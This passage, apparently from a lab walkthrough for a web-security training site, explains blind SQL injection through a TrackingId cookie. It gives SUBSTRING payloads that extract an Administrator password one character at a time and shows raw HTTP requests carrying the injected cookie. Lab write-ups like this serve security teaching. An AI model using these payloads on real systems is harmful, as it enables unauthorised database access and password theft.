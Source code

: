 The initial value will trigger the query to produce results as the injected condition `AND '1'='1` is true. This results in the display of the "Welcome back" message. However, the second value will not produce any results as the injected condition is false. Consequently, the "Welcome back" message will not be displayed. By determining the answer to a single injected condition, we can gradually extract data one bit at a time.

Let's say there is a table named `Users` that includes columns named `Username` and `Password`, which includes a user known as `Administrator`. We can determine the password for this user by sending a series of inputs to test the password one character at a time.

To begin, we can use the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

![a4c7504fb8bfbe0cf4e5721e5d9d20ea.png](/img/a4c7504fb8bfbe0cf4e5721e5d9d20ea.png)

This produces the "Welcome back" message, indicating that the first character of the password is greater than `m`, as the injected condition is true.

We then send the following input:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`

This does not return the "Welcome back" message, indicating that the injected condition is false, and hence the first character of the password is not greater than `t`.

We can continue sending similar inputs until we obtain the full password for the `Administrator` user. For example, the following input confirms that the first character of the password is `s`:

`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'`

*Note:* Some types of database use `SUBSTR` instead of `SUBSTRING`.

To modify the request containing the `TrackingId` cookie, go to the front page of the shop and use a web proxy. Change the `TrackingId` cookie to:

`TrackingId=xyz' AND '1'='1`

```
GET https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Referer: https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts
Cookie: TrackingId=ttA5PuFVqBx32BKR' AND '1'='1; session=IOnCeWQ4D8oa7OTRWL5c1osLrStRH4CV
Upgrade-Insecure-Requests: 1
Content-Length: 0
Host: acc21f2c1e7c6c578017078200f3009b.web-security-academy.net
```

Confirm that the response displays the "Welcome back" message. Then modify it to:

`TrackingId=xyz' AND '1'='2` 

```
GET https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Referer: https://acc21f2c1e7c6c578017078200f3009b.web-security-academy.net/filter?category=Gifts
Cookie: TrackingId=ttA5PuFVqBx32BKR' AND '1'='2; session=IOnCeWQ4D8oa7OTRWL5c1osLrStRH4CV
Upgrade-Insecure-Requests: 1
Content-Length: 0
Host: acc21f2c1e7c6c578017078200f3009b.web-security-academy.net
```
